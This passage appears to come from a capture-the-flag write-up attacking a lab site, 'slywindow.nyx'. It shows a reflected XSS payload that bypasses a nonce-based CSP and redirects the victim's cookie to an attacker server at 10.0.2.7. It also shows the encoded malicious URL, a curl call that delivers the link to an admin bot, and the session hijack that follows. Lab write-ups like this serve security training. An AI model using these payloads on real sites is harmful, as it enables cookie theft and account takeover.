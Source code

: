 ```javascript
<script nonce="aW1wcm92YWJsZS1ub25jZS0yMDI1LTA4LTAx">location.href='//10.0.2.7/?'+encodeURIComponent(document.cookie)</script>
```

We access the following URL from our browser; although visually it redirects to Google, our web server manages to capture the cookie from our own session, thus validating the exfiltration.

```text
http://www.slywindow.nyx/admin.php?error=%3Cscript%20nonce%3D%22aW1wcm92YWJsZS1ub25jZS0yMDI1LTA4LTAx%22%3Elocation.href%3D%27//10.0.2.7/%3F%27%2BencodeURIComponent%28document.cookie%29%3C%2Fscript%3E
```

![My cookie](../../assets/images/slywindow/20250801_035317_image.png)

With the malicious link ready, we proceed to use the API to send the URL to the administrator and thus attempt to exfiltrate their cookie from the page `http://www.slywindow.nyx/admin.php`.

```bash
curl -H 'X-API-Key: d880e17b1a866fbe7221de31316e66e560025276d8bce7d48706b44ffaf56b79' -d '{"message":"test","url":"http://www.slywindow.nyx/admin.php?error=%3Cscript%20nonce%3D%22aW1wcm92YWJsZS1ub25jZS0yMDI1LTA4LTAx%22%3Elocation.href%3D%27//10.0.2.7/%3F%27%2BencodeURIComponent%28document.cookie%29%3C%2Fscript%3E"}' -X POST http://api.slywindow.nyx/api.php 2>/dev/null | jq
```

In less than 30 seconds, our server receives the administrator's session cookie, confirming successful exfiltration.

![Admin cookie](../../assets/images/slywindow/20250801_035601_image.png)

We access the URL `http://www.slywindow.nyx/admin.php`, replace the session cookie in the browser with the administrator's previously exfiltrated cookie, and reload the page. This way, we gain access to the `Administration Panel`.
